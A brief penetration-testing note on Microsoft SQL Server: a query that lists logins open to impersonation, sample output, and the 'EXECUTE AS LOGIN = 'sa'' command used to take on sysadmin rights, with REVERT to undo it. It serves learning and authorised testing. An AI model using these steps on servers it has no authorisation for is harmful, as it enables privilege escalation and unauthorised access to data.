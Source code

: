 ```yaml
---
tags:
  - Enumeration
  - TCP
  - MSSQL
  - Concepts
---
```



Sysadmins can impersonate anyone by default, But for non-administrator users, privileges must be explicitly assigned. We can use the following query to identify users we can impersonate:

Using [[SqlCmd]]:

```cmd-session
1> SELECT distinct b.name
2> FROM sys.server_permissions a
3> INNER JOIN sys.server_principals b
4> ON a.grantor_principal_id = b.principal_id
5> WHERE a.permission_name = 'IMPERSONATE'
6> GO

name
-----------------------------------------------
sa
ben
valentin
```

#### Impersonating the SA User

```cmd-session
EXECUTE AS LOGIN = 'sa'
```

> [!NOTE]
> It's recommended to run `EXECUTE AS LOGIN` within the master DB, because all users, by default, have access to that database. If a user you are trying to impersonate doesn't have access to the DB you are connecting to it will present an error. Try to move to the master DB using `USE master`.

To revert the operation and return to our previous user, we can use the Transact-SQL statement `REVERT`.